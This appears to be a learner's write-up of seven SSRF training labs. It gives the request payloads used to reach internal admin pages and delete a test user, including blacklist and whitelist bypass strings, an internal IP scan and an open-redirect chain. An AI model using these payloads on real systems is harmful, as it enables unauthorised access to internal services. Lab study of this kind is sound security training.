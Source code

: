 ## Lab - 1: Basic SSRF against the local server (A)

- This lab has a stock check feature which fetches data from an internal system. To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

- change the `stockApi` value to `http://localhost/admin/` and return a page that contains a link to delete the user carlos

- `http://localhost/admin/delete?username=carlos`

```
POST /product/stock HTTP/1.1
...
stockApi=http%3a%2f%2flocalhost%2fadmin%2fdelete%3fusername%3dcarlos
```

---

## Lab - 2: Basic SSRF against another back-end system (A)

- This lab has a stock check feature which fetches data from an internal system. To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos.

- the SSRF vuln end point is at

```
POST /product/stock HTTP/1.1
...
stockApi=http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1
```

- change the IP `192.168.0.2:8080/admin` and return 500 error.
- in Burp Intruder use sniper from `2 to 256` at `192.168.0.x:8080/admin`
- found one number with 200 response
- then go on

---

## Lab - 3: SSRF with blacklist-based input filter (P)

- This lab has a stock check feature which fetches data from an internal system. To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos. The developer has deployed two weak anti-SSRF defenses that you will need to bypass.

- the SSRF vuln end point is at

```
POST /product/stock HTTP/1.1
...
stockApi=http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1
```

- change the stockApi value to
- `http://localhost`, `http://127.0.0.1` => blocked
- found that `http://127.1` returns 200 but `http://127.1/admin` is blocked
- then make URL encoded to`admin` and use `http://127.1/%61%64%6d%69%6e`
- then go on

---

## Lab - 4: SSRF with whitelist-based input filter (E)

- This lab has a stock check feature which fetches data from an internal system. To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos. The developer has deployed an anti-SSRF defense you will need to bypass.

- at the SSRF vuln end point,
- try to change the value of stockApi value
- `http://localhost` and return 400 response with "External stock check host must be stock.weliketoshop.net"
- try
  - `http://stock.weliketoshop.net@localhost`
  - `http://localhost#stock.weliketoshop.net`
  - `http://stock.weliketoshop.net.localhost`  
    not working
- `http://localhost@stock.weliketoshop.net` => get 500 server error
- `http://localhost#@stock.weliketoshop.net` not working
- `http://localhost%23@stock.weliketoshop.net` works again
- `http://localhost%23@stock.weliketoshop.net/admin` works
- `http://localhost:80%23@stock.weliketoshop.net/admin/delete?username=carlos`

---

## Lab - 5: SSRF with filter bypass via open redirection vulnerability (P)

- This lab has a stock check feature which fetches data from an internal system. To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos. The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.

- first find the Open redirect vuln
- Redirection is found at `Next Product` button
- Open redirect is found

```
GET /product/nextProduct?currentProductId=1&path=http://example.com HTTP/1.1
```

- then change the stockApi POST request to

```
stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin/delete?username=carlos
```

---

## Lab - 6: Blind SSRF with out-of-band detection (P)

- This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded. To solve the lab, use this functionality to cause an HTTP request to the public Burp Collaborator server.

- change the `Referer` header in one of the GET request page of a product to Burp Collaborator client

---

## Lab - 7: Blind SSRF with Shellshock exploitation (E)

- This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded. To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the 192.168.0.X range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.
